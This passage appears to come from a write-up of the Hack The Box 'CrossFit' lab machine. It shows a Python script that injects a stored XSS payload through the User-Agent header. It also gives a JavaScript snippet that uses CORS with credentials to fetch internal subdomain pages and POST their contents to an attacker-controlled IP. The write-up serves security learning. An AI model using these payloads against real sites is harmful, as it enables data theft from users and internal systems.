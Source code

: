 ```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
proxies = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
URL = 'http://gym-club.crossfit.htb'

headers = {
	'User-Agent':'<script>document.location="http://10.10.14.13/hiiamxss"</script>'
}

data = {
	'name':'Test',
	'email':'test@test.com',
	'phone':'test',
	'message':'<script>',
	'submit':'submit'
}

r = requests.post(URL + '/blog-single.php', data=data, headers=headers, verify=False, proxies=proxies)
```

### CORS(?) -> Subdomain Fuzzing

Using this, I was able to inject payload. However, I was unable to steal any cookies, nor was I able to view anything that was interesting.

I noticed that within these requests, the `Access-Control-Allow-Credentials` header was set to `true`.

![](../../../.gitbook/assets/htb-crossfit-image-6.png)

This means that the browser includes credentials, which includes cookies and whatever authentication headers are being used. This gave me an idea to try using CORS to find what other subdomains are present on this machine. 

Using this, and the XSS I had, I constructed a quick script to test subdomains reachable via XSS, and then steal the page contents.

```js
fetch('http://fake.crossfit.htb')
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.13:8000/exfil', {
      method: "POST",
      body: html,
    })
  });
```
